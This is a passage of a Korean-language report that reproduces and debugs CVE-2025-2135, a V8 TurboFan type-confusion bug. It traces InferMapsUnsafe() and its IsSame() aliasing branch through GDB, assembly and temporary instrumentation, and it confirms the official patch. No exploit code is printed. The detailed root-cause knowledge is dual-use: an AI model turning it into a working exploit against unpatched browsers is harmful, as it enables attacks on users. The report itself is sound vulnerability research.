처음에는 절대 경로와 `directory` 명령어를 사용해 경로 문제를 해결하려 했지만 해당 시도에서도 `No such file or directory` 경고가 발생했다. **해당 `directory` 명령어로 경로 매핑을 성공적으로 해결했다고 기록하지 않는다.**



*그림 30. GDB `directory` 경로 지정 시 발생한 추가 경고.*

실제 해결에 사용한 우회 방법은 **GDB의 소스 위치 해석과 무관하게 `shell` 명령으로 파일을 직접 출력**하는 것이다.

```gdb
shell nl -ba src/objects/object-type.cc | sed -n '70,90p'
```

이 방식은 GDB가 실행 중인 위치에서 Ubuntu의 `nl`과 `sed`를 이용해 소스코드를 읽는다.

## 8.5 `CheckObjectType()`의 Fatal Error 코드 분석

**[소스 확인]** 79~82행에서 다음 코드를 찾았다.

```cpp
FATAL(
    "Type cast failed in %s\n"
    "  Expected %s but found %s",
    location->ToAsciiArray(), expected, value_description.str().c_str());
```



*그림 31. `src/objects/object-type.cc`의 유형 불일치 오류 출력 코드.*

형식 문자열과 실제 출력의 연결:

| 형식 문자열·변수 | 실험에서 관찰된 내용 |
|---|---|
| `location` | `CAST(elements)` |
| `expected` | `FixedDoubleArray` |
| `value_description` | `[FixedArray]` |

`FATAL()`은 프로그램이 심각한 내부 불일치를 발견했을 때 사용되며, 당시 실행에서 `V8_Fatal()`, `Abort()`로 이어졌다. 79행은 `FATAL` 호출의 시작 부분이고 82행은 실제 메시지 인수를 넘기는 구간이다. 따라서 출력과 Backtrace에서 79행과 82행이 각기 나타날 수 있다.

**결론:** 이 함수는 오류를 **처음 만들어 낸 최적화 함수**가 아니라, **잘못된 최적화의 결과로 발생한 유형 불일치를 발견한 검사 지점**이다.

---

# 9. GDB 동적 분석 — `InferMapsUnsafe()`와 조건 분기

## 9.1 함수 검색과 최초 중단점

`InferMapsUnsafe()`가 디버깅 심볼에 있는지 확인하였다.

```gdb
info functions InferMapsUnsafe
```

출력에는 다음과 같이 간략화된 정보가 나타났다.

```text
File ../../src/compiler/node-properties.cc:
    static void InferMapsUnsafe();
```



*그림 32. GDB가 `InferMapsUnsafe`라는 함수 이름을 검색함.*

표시된 `static void`는 **디버깅 정보 표시상의 단순화**이며 실제 C++ 정의의 완전한 원형과 동일하다고 가정하지 않았다. 실제 함수에는 `broker`, `receiver`, `effect`, `maps_out` 등이 전달되며 반환형 역시 Map 추론 결과다.

```gdb
rbreak InferMapsUnsafe
info breakpoints
run
```

- `rbreak`: 정규표현식에 일치하는 함수에 중단점 설정.
- `info breakpoints`: 중단점의 번호, 위치, 활성화 여부 확인.
- `run`: PoC를 처음부터 실행.

**[실험 확인]** 중단점 1이 `node-properties.cc:409`에 설정되었다. `pwndbg` 스레드 화면에서 메인 스레드가 `InferMapsUnsafe()` 내부에 멈춘 것도 확인했다. V8의 다른 백그라운드 작업 스레드가 함께 표시된 것은 이상 상황이 아니다.





*그림 33~34. 함수 진입 위치 중단점과 메인 스레드 정지 상태.*

이 함수는 정상적인 최적화에서도 여러 번 호출될 수 있으므로 **함수에 도달했다는 사실만으로 CVE가 발생한 특정 순간이라고 판단하지 않았다.**

## 9.2 `bt 8`을 통한 TurboFan 호출 경로

```gdb
bt 8
```

**[실험 확인]**

```text
#0 InferMapsUnsafe()                  node-properties.cc:409
#1 InferMaps()                        js-native-context-specialization.cc:4249
#2 TryRefineElementAccessFeedback()  js-native-context-specialization.cc:2249
#3 ReduceElementAccess()             js-native-context-specialization.cc:2284
#4 ReducePropertyAccess()            js-native-context-specialization.cc:2619
#5 ReduceJSLoadProperty()            js-native-context-specialization.cc:2822
#6 Reduce()                          graph-reducer.cc:34
#7 Reduce()                          graph-reducer.cc:105
```



*그림 35. `InferMapsUnsafe`가 배열·속성 접근 최적화 과정에서 호출되었음을 보여주는 Backtrace.*

해석:

1. JavaScript의 `v2[0]`, `v3[0]`과 같은 속성·원소 읽기 연산은 TurboFan 최적화 대상이 된다.
2. `ReduceJSLoadProperty`, `ReducePropertyAccess`, `ReduceElementAccess`가 관련 최적화 과정에서 호출된다.
3. `TryRefineElementAccessFeedback()`가 배열 접근에 관한 유형 피드백을 정교화한다.
4. `InferMaps()`가 내부적으로 `InferMapsUnsafe()`를 호출해 객체의 Map을 추론한다.

`Reduce`는 산술적으로 숫자를 줄인다는 뜻이 아니라 그래프의 IR 노드를 더 효율적이거나 구체적인 형태로 바꾸는 최적화 작업을 뜻한다.

이 결과는 공식 PoC의 **배열 접근 연산**과 V8 내부의 **Map 추론 함수**를 GDB 호출 흐름으로 연결한 근거다.

## 9.3 456행 중단점과 `symbol_level=1`의 한계

취약 분기를 조사하려고 다음 명령어를 실행했다.

```gdb
break node-properties.cc:456
disable 1
continue
```

- 456행: `if (IsSame(receiver, object))`의 위치.
- `disable 1`: 이전 함수 진입 중단점 1을 잠시 비활성화(다른 GDB 세션에서의 번호는 달라질 수 있음).
- `continue`: 프로그램 실행 재개.

중단점에서 멈춘 후:

```gdb
info args
info locals
```

**[실험 확인]** 처음 `symbol_level=1`로 빌드한 d8에서는 다음과 같이 표시되었다.

```text
No arguments.
No locals.
```



*그림 36. `symbol_level=1`에서 인수·지역변수가 표시되지 않은 사례.*

변수가 실제로 없어서라기보다는 당시 빌드의 디버그 정보가 충분하지 않았기 때문으로 판단하여, 상세 디버그 정보를 포함한 설정으로 다시 빌드했다.

## 9.4 `symbol_level=2` 재빌드

```bash
gn gen out/vuln-debug --args='is_debug=true is_component_build=false target_cpu="x64" symbol_level=2'
ninja -C out/vuln-debug -j 2 d8
echo $?
# 0
```

**[실험 확인]** 해당 변경으로 추가 디버그 정보를 포함한 빌드가 성공했다.



*그림 37. 상세 디버그 정보 설정과 재컴파일 성공.*

`symbol_level=2`는 변수 이름과 소스 위치를 포함한 정보를 더 풍부하게 제공하지만 **C++ 컴파일러 최적화까지 전부 비활성화하는 옵션은 아니다.** 일부 값은 여전히 `<optimized out>`으로 표시될 수 있다.

## 9.5 상세 빌드에서 456행 중단 및 변수 확인

```bash
gdb --args ./out/vuln-debug/d8 --allow-natives-syntax --turbofan --no-always-turbofan ../poc/regress-400052777.js
```

```gdb
break node-properties.cc:456
run
info args
info locals
```

**[실험 확인]** `Thread 1 "d8" hit Breakpoint 1`이라는 메시지와 함께 `node-properties.cc:456`에서 멈췄다.



*그림 38. `InferMapsUnsafe`의 핵심 조건문에서 중단.*

`info args`에서 다음 내용이 나타났다(메모리 주소는 실행 시점에 따라 달라짐).

```text
broker = 0x1f34001b7800
receiver = <optimized out>
effect = { node_ = 0x1f340103a9d0 }
maps_out = 0x7fffffffc040
```

`info locals`는 다음과 같은 항목을 표시했다.

```text
object = 0x1f349102d788
m = { ... }
result = <optimized out>
```





*그림 39~40. 상세 Debug 빌드에서 일부 매개변수와 지역변수 이름이 출력되나, `receiver`와 `result`는 최적화로 직접 확인 불가.*

| 항목 | 역할 | GDB 결과 |
|---|---|---|
| `broker` | 컴파일러가 객체 정보를 얻는 내부 서비스 | 포인터 표시 |
| `receiver` | Map 추론 대상 IR 노드 | `<optimized out>` |
| `effect` | 현재 분석 중인 Effect 노드 | 내부 `node_` 주소 표시 |
| `maps_out` | 가능한 Map 집합을 채울 출력 인자 | 포인터 표시 |
| `object` | 전이 연산의 대상이 되는 IR 노드 | 포인터 표시 |
| `result` | 신뢰성 결과 | `<optimized out>` |

`object`와 `receiver`에 표시되는 포인터는 **TurboFan 내부 IR 객체/노드와 관련된 포인터**이며, 곧바로 JavaScript 배열 본체 주소라고 해석해서는 안 된다.

## 9.6 `next`로 이동한 위치: 550행

456행에서 `next`를 실행한 후:

```gdb
next
info line *$pc
```

**[실험 확인]** 현재 PC가 `node-properties.cc`의 **550행**에 대응한다는 출력이 나타났다. 실제 소스는 다음과 같았다.

```cpp
if (IsSame(receiver, effect)) return kNoMaps;
```



GDB는 **소스코드 줄 → 기계어 주소**를 디버깅 정보를 기준으로 표시하는데, 최적화된 C++에서는 각 줄이 기계어와 정확히 일대일로 대응하지 않는다. 따라서 처음 이 결과만 보고 `IsSame(receiver, object)`가 `false`였다고 단정하지 않았다. 뒤에서 실제 어셈블리의 반환값과 조건 분기로 확인했다.

## 9.7 461행 중단점이 실제로 464행에 설정된 문제

`break node-properties.cc:461`은 소스코드의 `break;`를 목표로 했지만, 컴파일러가 해당 줄을 독립된 기계어 위치로 유지하지 않은 것으로 보였다.

```gdb
break node-properties.cc:461
continue
info line *$pc
info breakpoints
```

**[실험 확인]** `info breakpoints`에서 중단점 1은 456행, 새 중단점 2는 **464행**에 설정되어 있었다. 원래 지정한 461행의 정확한 실행 여부를 이 중단점만으로 확정할 수 없었다.



*그림 41. 461행에 요청한 중단점이 실제로는 464행에 배치된 사례.*

이는 GDB가 잘못 동작한다는 단순 오류가 아니라 **컴파일 과정의 코드 최적화, 소스 라인 매핑, 기계어 배치의 차이** 때문에 생길 수 있는 현상이다.

## 9.8 어셈블리에서 `IsSame()` 조건 확인

소스코드 단위 `next`만으로는 참/거짓을 확정하기 어려워 **실제 CPU 명령어**를 확인했다.

```gdb
disable 2
x/30i $pc
```

`disable 2`는 잘못된 위치에 설정된 중단점 2를 끄는 명령이다. `x/30i $pc`는 CPU가 실행하려는 위치를 기준으로 어셈블리 명령 30개를 출력한다.

주요 출력:

```asm
0x55555815bc8e  mov  rdi, r13
0x55555815bc91  mov  rsi, rax
0x55555815bc94  call NodeProperties::IsSame
0x55555815bc99  test al, al
0x55555815bc9b  je   0x55555815bd40
0x55555815bca1  jmp  0x55555815c094
```



*그림 42. `call IsSame`, `test al, al`, `je` 조건 분기가 보이는 구간.*

각 명령어의 의미:

- `mov rdi, r13` / `mov rsi, rax`: CPU 레지스터에 함수 호출 인수 값을 준비한다.
- `call NodeProperties::IsSame`: 두 노드의 동일성을 검사하는 함수 호출.
- `test al, al`: 반환값이 0인지 검사하고 CPU 플래그를 설정한다. x86-64 ABI에서 `bool` 반환값은 일반적으로 `al`에 놓인다.
- `je`: Zero Flag가 설정되었다면 지정 주소로 분기한다.
- `jmp`: 조건 없이 지정 주소로 이동한다.

표시된 **메모리 주소는 분석 시 실행 환경의 주소**이므로 다른 컴퓨터에서 달라질 수 있다. 의미는 **비교, 분기, 도달한 소스 위치**에 있다.

## 9.9 `IsSame()` 반환값 `0` 직접 확인

현재 PC가 `mov rdi,r13` 부근인 상태에서 어셈블리 명령을 세 번 한 단계씩 실행했다.

```gdb
ni
ni
ni
x/i $pc
p/d $al
```

- `ni`(next instruction): 현재 기계어 명령어 하나 실행, 일반적인 함수 호출은 함수 내부에 들어가지 않고 넘어감.
- `x/i $pc`: 다음에 실행할 기계어 명령을 표시.
- `p/d $al`: `al` 레지스터의 값을 10진수로 출력.

**[실험 확인]**

```text
=> 0x55555815bc99: test al, al
$1 = 0
```



*그림 43. `IsSame` 호출 후 반환값이 `0`(false)임을 직접 확인.*

이 결과는 현재 실행에서 `IsSame(receiver, object)`가 **`false`로 평가되었음**을 의미한다. 단, `false`는 **두 노드가 동일하다고 확인되지 않는다**는 뜻이지 **런타임 객체가 절대로 다르다**는 증거는 아니다. 이 별칭 가능성이 핵심이다.

## 9.10 조건 분기로 550행 이동까지 확인

이어서 다음 두 명령을 실행하였다.

```gdb
ni   # test al, al 실행
ni   # je 분기 실행
x/i $pc
info line *$pc
```

**[실험 확인]**

```text
=> 0x55555815bd40: mov rdi, r13
Line 550 of "../../src/compiler/node-properties.cc"
```





*그림 44~45. `je` 분기 후 `0x...bd40` 도달, 해당 위치가 소스코드 550행에 대응함.*

검증한 흐름:

```text
456행  if (IsSame(receiver, object))
                  |
           IsSame() 호출
                  |
             al = 0
                  |
          test al, al
                  |
                je
                  |
       주소 0x55555815bd40
                  |
550행  if (IsSame(receiver, effect)) return kNoMaps;
```

**의미:** 이번 GDB 시점에서 두 IR 노드가 같다고 확인되지 않아 `if` 내부 반환 경로를 건너뛰고 `switch` 이후의 Effect Chain 처리 위치로 진행했다는 것을 동적으로 확인하였다.

### 동적으로 검증한 것과 아직 미확인인 것

| 질문 | 확인 여부 | 근거 |
|---|---|---|
| `InferMapsUnsafe()`가 PoC 실행 중 호출되는가? | **예** | `bt 8` |
| 취약한 `IsSame()` 조건문 근처에서 멈췄는가? | **예** | 456행 중단점 |
| 해당 호출의 `IsSame()`이 `false`인가? | **예** | `$al = 0` |
| 조건 분기 후 550행으로 진행했는가? | **예** | `ni`, `info line *$pc` |
| 두 IR 노드가 같은 JavaScript 배열을 참조하는지 직접 확인했는가? | **아니오** | 노드→실제 객체 별칭 관계 추적 미실시 |
| 그 호출에서 최종 반환한 신뢰성 상태가 `kReliableMaps`인지 확인했는가? | **아니오** | `result = <optimized out>` |
| 최종 Map 추론이 PoC 크래시와 1:1 대응함을 입증했는가? | **아니오** | 추적·IR 연결 추가 필요 |

이 구분을 하면 **과장 없는 재현·원인 보고서**가 된다.

---

# 10. Map 신뢰성 상태 출력 계측 실험 — 준비 완료 / 실행 결과 대기

## 10.1 목적

GDB에서 `result = <optimized out>`으로 나타났으므로, 소스코드에 분석용 로그를 임시 삽입하여 `IsSame()`이 거짓인 경로에서 당시의 신뢰성 상태를 출력하려고 하였다. 이 코드는 **V8 원본 코드도 아니고 Google 패치도 아니며 분석자가 추가한 임시 계측 코드**다.

`result`를 실제로 변경하는 것이 아니라 현재 값을 출력하기 위해 작성했다. 또한 이 출력은 **분기에서 관찰한 당시 값**이지 **함수가 최종 반환한 값**을 자동으로 증명하지 않는다는 제한이 있다.

## 10.2 소스코드 백업

현재 소스코드는 취약 커밋 기준이다. 원본 코드가 훼손되지 않도록 백업 후 편집하였다.

```bash
cd ~/CVE-2025-2135/v8
cp src/compiler/node-properties.cc ../node-properties.original.cc
nano src/compiler/node-properties.cc
```

- `cp`: 원본 파일을 별도로 복사.
- `nano`: 텍스트 편집기.
- `Ctrl+W`: 함수·문자열 검색.
- `Ctrl+O`, Enter: 저장.
- `Ctrl+X`: 편집기 종료.

파일 상단에 다음을 추가했다.

```cpp
#include <cstdio>
```

이는 C++의 `std::fprintf()`를 사용할 수 있도록 하는 표준 헤더다.

## 10.3 분석용 출력 코드

`kTransitionElementsKindOrCheckMap` 분기의 기존 `if`가 끝난 뒤, `break;` 직전에 다음 코드를 추가하였다.

```cpp
case IrOpcode::kTransitionElementsKindOrCheckMap: {
  Node* const object = GetValueInput(effect, 0);
  if (IsSame(receiver, object)) {
    *maps_out = ZoneRefSet<Map>{
        ElementsTransitionWithMultipleSourcesOf(effect->op()).target()};
    return result;
  }

  // CVE-2025-2135 analysis (temporary instrumentation)
  std::fprintf(stderr,
               "[CVE_TRACE] receiver=%d object=%d result=%s\n",
               receiver->id(), object->id(),
               result == kReliableMaps
                   ? "kReliableMaps"
                   : "kUnreliableMaps");

  break;
}
```

- `stderr`: 오류 및 디버깅 정보를 출력할 수 있는 표준 오류 출력.
- `receiver->id()`, `object->id()`: 두 IR 노드의 ID(객체 메모리 주소가 아님).
- `result == kReliableMaps`: 현재 신뢰성이 Reliable인지 비교.
- `? ... : ...`: 조건에 따라 표시할 문자열 선택.
- `if` 블록 바깥에 있으므로, 이 출력문은 `IsSame()`이 참이라 즉시 반환한 경우가 아닌 **조건이 성립하지 않은 경로**에서 실행된다.

이 문자열 표현은 `result`가 `kReliableMaps`가 아니면 `kUnreliableMaps`라고 표시하도록 작성되어 있다. 사용 중인 `InferMapsResult`의 모든 가능한 상태를 출력하는 범용 코드인지 별도 점검하지 않았으므로, **추가 검증에서는 enum 정의와 실제 반환 경로도 함께 확인할 필요가 있다.**

## 10.4 `git diff`로 변경 확인

```bash
git diff -- src/compiler/node-properties.cc
```

**[실험 확인]** 변경 사항에는 `#include <cstdio>`와 `fprintf()` 블록이 추가되어 있었고, 원본의 `break`와 기존 조건문은 유지되었다.



*그림 46. 취약한 V8 코드에 추가한 분석용 출력문. 패치 코드는 삽입하지 않음.*


# 11. 결론

## 11.1 재현과 패치 검증 결론

1. 공식 패치의 **부모 커밋**으로 취약 V8을 빌드하고 d8에서 공식 회귀 테스트를 실행했다.
2. `CAST(elements)`에서 `FixedDoubleArray`를 예상했으나 실제 `FixedArray`를 발견하여 Fatal Error가 발생했다.
3. `%DebugPrint()`로 정상적인 배열의 `HOLEY_DOUBLE_ELEMENTS`/`FixedDoubleArray` 표현과 문자열 삽입 후의 `HOLEY_ELEMENTS`/`FixedArray` 전이를 직접 관찰했다.
4. 공식 PoC는 첫 호출에서 유형 피드백을 수집하고 최적화 호출에서 같은 배열 객체를 두 인수로 전달해 별칭 관계를 구성한다.
5. 취약한 `InferMapsUnsafe()`는 다른 IR 노드가 같은 객체를 참조할 가능성이 있을 때 신뢰성 정보를 충분히 낮추지 않는다.
6. 공식 패치는 해당 경로에 `result = kUnreliableMaps;`를 추가하였다.
7. 패치 후 동일 PoC가 오류 없이 종료 코드 `0`을 반환하여 해당 회귀 테스트 기준에서 문제가 해결되었음을 확인했다.

## 11.2 GDB 동적 분석에서 직접 얻은 사실

- `Array.prototype.indexOf()`의 실수 HOLEY 배열 처리 경로(`Builtins_ArrayIndexOfHoleyDoubles`)에서 유형 검사가 실패했다.
- 오류 검출 함수인 `CheckObjectType()`의 `FATAL()` 코드와 실제 Fatal Error 문구가 일치한다.
- TurboFan 배열 접근 최적화 중 `InferMapsUnsafe()`가 호출되었다.
- 함수 내부의 `IsSame(receiver, object)` 호출 반환값이 `0`이었다.
- `test al, al`, `je`를 실행한 결과 분기해 소스 550행에 도달했다.
- `result`와 `receiver`는 당시 GDB에서 `<optimized out>`으로 나타났다.


---

# 12. 분석 과정에서 사용한 주요 명령어 및 용어

## 12.1 터미널 명령어 사용 기록

| 명령어 | 목적/결과 |
|---|---|
| `git clone .../depot_tools.git` | V8 전용 소스·빌드 관리 도구 가져오기 |
| `export PATH="$HOME/depot_tools:$PATH"` | 도구 경로 등록 |
| `which fetch` | `fetch` 설치 확인 |
| `fetch v8` | V8 소스코드 다운로드 |
| `ls` | 소스 파일과 디렉터리 확인 |
| `git checkout <commit>` | 취약/수정 버전 선택 |
| `git rev-parse HEAD` | 선택한 정확한 커밋 식별 |
| `gclient sync` | V8의 버전별 의존성 동기화 |
| `lsb_release -a` | Ubuntu 26.04.1 LTS 확인 |
| `./build/install-build-deps.sh --unsupported` | 패키지 설치 재시도(패키지 미발견으로 실패) |
| `echo $?` | **직전 명령어**의 종료 코드 확인 |
| `sudo apt install ...` | 기본 컴파일러·빌드 도구 설치 |
| `gn gen ... --args=...` | 빌드 설정 생성 |
| `ninja -C ... -j 2 d8` | d8 컴파일 |
| `./out/vuln-debug/d8 ... JS` | 취약 V8에서 공식 PoC 실행 |
| `./out/fixed-debug/d8 ... JS` | 패치 V8에서 동일 PoC 실행 |
| `nl -ba FILE` | 소스 전체를 행 번호와 함께 출력 |
| `sed -n 'a,bp'` | 지정한 줄 범위만 출력 |
| `git show COMMIT -- FILE` | 패치에서 해당 파일이 어떻게 달라졌는지 확인 |
| `git diff -- FILE` | 현재 분석자가 임시 수정한 내용과 Git 원본 비교 |
| `cp ... ...` | 계측 전에 원본 C++ 코드 백업 |

**`echo $?` 주의:** 다른 명령어를 먼저 실행하면 종료 코드가 갱신될 수 있다. 확인하려는 작업 직후에 입력해야 한다.

## 12.2 GDB 및 pwndbg 명령어

| 명령어 | 뜻 |
|---|---|
| `gdb --args d8 ...` | d8을 GDB의 분석 대상으로 등록 |
| `run` | 프로그램 실행(재실행) |
| `quit` | GDB 종료 |
| `bt 20`, `bt 8` | 최근 함수 호출 스택 확인 |
| `frame 3` | 선택한 스택 프레임으로 이동 |
| `info functions InferMapsUnsafe` | 함수 심볼 검색 |
| `rbreak InferMapsUnsafe` | 이름에 맞는 함수 중단점 생성 |
| `break node-properties.cc:456` | 소스코드 특정 행 중단점 |
| `info breakpoints` | 중단점 번호/주소/상태 확인 |
| `disable 1`, `disable 2` | 특정 중단점 비활성화 |
| `continue` / `c` | 프로그램 실행 계속 |
| `next` | 소스코드 단위 다음 단계 실행 |
| `ni` | 어셈블리 명령어 1개씩 실행 |
| `info args` | 함수 매개변수 확인 |
| `info locals` | 지역변수 확인 |
| `info line *$pc` | 현재 PC의 소스 위치 확인 |
| `x/i $pc` | 현재 기계어 1개 출력 |
| `x/30i $pc` | 현재 위치부터 기계어 30개 출력 |
| `p/d $al` | `al` 반환값을 10진수로 출력 |
| `shell pwd`, `shell ls ...` | GDB에서 Ubuntu 명령어 실행 |
| `shell nl -ba ... \| sed ...` | GDB의 소스 경로가 잘못된 경우 파일을 직접 출력 |

## 12.3 주요 용어정리

| 개념 | 뜻 |
|---|---|
| CVE | 공개적으로 추적되는 취약점 식별 번호 |
| PoC | 취약한 동작을 재현해 보여 주는 시험 코드 |
| JIT | 실행 중 코드를 기계어로 변환하는 방식 |
| TurboFan | V8의 최적화 컴파일러 |
